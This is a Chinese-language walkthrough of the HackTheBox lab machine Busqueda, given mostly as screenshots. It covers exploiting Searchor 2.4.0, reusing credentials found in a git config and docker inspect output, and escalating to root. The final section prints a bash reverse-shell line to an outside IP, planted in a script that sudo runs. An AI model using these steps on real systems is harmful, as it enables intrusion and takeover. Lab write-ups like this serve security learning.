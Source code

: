 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 Busqueda/","tags":["靶场","hackthebox","oscp"]}
---
```



![image.png](https://s2.loli.net/2025/07/06/zruMbdet2ZaU8gS.png)

![image.png](https://s2.loli.net/2025/07/07/yCtNrueFaqf15lH.png)
[[思/Busqueda 思\|Busqueda 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/07/06/Mtv6G1fBUDFwuLo.png)

有一个 80 端口和 22 端口
## 80 端口服务
![image.png](https://s2.loli.net/2025/07/06/BlVvdpnjcL9QbsU.png)

![image.png](https://s2.loli.net/2025/07/06/8VCB1Z3PfHQSIs9.png)

这个步骤可能是个关键点

随便写一个 xss 进去看看
![image.png](https://s2.loli.net/2025/07/06/B5pXikmzL2OdRsE.png)


![image.png](https://s2.loli.net/2025/07/06/TqgI47jLxNkKWCE.png)

只有这样的显示

在底下发现有个 Searchor 2.4.0 ，可能是利用 cms
![image.png](https://s2.loli.net/2025/07/06/Cp4xthW6YBE5oFa.png)

![image.png](https://s2.loli.net/2025/07/06/14EUjV6FbcQeLWI.png)


![image.png](https://s2.loli.net/2025/07/07/fFnGhyKYHWNjs8w.png)

获得反弹 shell
![image.png](https://s2.loli.net/2025/07/07/FUDYjS5Ze9VA3qw.png)

![](https://s2.loli.net/2025/07/07/QFSj5cUbuev8Gri.png)
找到 user. txt
## 提权
用一手 linpeas 进行信息收集

发现蛮多隐藏文件的，其中 git 的文件引人注目
![image.png](https://s2.loli.net/2025/07/07/tHSqUbdaeoxcNk2.png)

![image.png](https://s2.loli.net/2025/07/07/AQsn9fMjT3rJdc4.png)

在查看进程中也时不时就找到/var/www/app这个目录，可能里面有东西

![image.png](https://s2.loli.net/2025/07/07/jaKfFXiwWHT1GQb.png)

刚好在/var/www/app中有个值得关注的东西，佐证了我们的想法

先一个一个看 gitconfig 告诉我们有个邮箱和名字
![image.png](https://s2.loli.net/2025/07/07/R8xCZAwTlaq4uB7.png)

在. git 的文件夹中
![image.png](https://s2.loli.net/2025/07/07/RriB1pwnLG4VyYm.png)

这里面的 index 有 root 权限

配置文件告诉我们有个 gitea 的子域名
![image.png](https://s2.loli.net/2025/07/07/WRQ9TmeDJG5XM2i.png)

配置文件中的这一串就是账密
```
cody:jh1usoih2bkjaspwe92
```

![image.png](https://s2.loli.net/2025/07/07/ujyUwQPnN1BvqoC.png)

登录成功，但我是看不出里面有啥好东西，至少找到了 svc 用户的密码

![image.png](https://s2.loli.net/2025/07/07/GjfcEB27e5lvTb6.png)

查看到 sudo -l 的东西

![image.png](https://s2.loli.net/2025/07/07/8lPKiJFYhs7xDcm.png)

docker ps 查看容器
![image.png](https://s2.loli.net/2025/07/07/BtLO97hquVDXT3S.png)

docker-inspect
```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea |jq .
```

![image.png](https://s2.loli.net/2025/07/07/Vq5rkRoxHUbml7s.png)

找到个账户密码，试试能不能登录 administer

成功登录
![image.png](https://s2.loli.net/2025/07/07/NvVDEzo4AQTJy26.png)

检查一下 system-checkup. py 脚本

![image.png](https://s2.loli.net/2025/07/07/tiYxf3vjhPF4sOm.png)

在这里有个用 full-checkup. sh ，可以利用这个地方，钻个空子

### 修改脚本 反弹 shell
看了 wp，说是新建full-checkup. sh，在里面添加了反弹 shell，就能反弹到 root 权限的反弹 shell
```
svc@busqueda:/tmp$ cat full-checkup.sh
cat full-checkup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/9999 0>&1

svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
sudo python3 /opt/scripts/system-checkup.py full-checkup

```

![image.png](https://s2.loli.net/2025/07/07/k3g4tbSFUOZeXKE.png)

获得 root反弹 shell

![image.png](https://s2.loli.net/2025/07/07/dqotP9BRlrcEIT8.png)
